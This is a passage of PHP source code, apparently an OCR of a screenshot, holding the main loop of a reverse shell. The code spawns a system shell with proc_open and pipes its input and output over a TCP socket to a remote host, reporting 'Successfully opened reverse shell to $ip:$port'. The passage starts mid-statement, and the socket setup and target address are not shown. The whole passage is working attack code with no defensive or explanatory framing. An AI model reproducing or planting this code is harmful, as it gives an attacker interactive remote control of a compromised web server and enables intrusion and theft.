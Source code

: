 ```
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}
```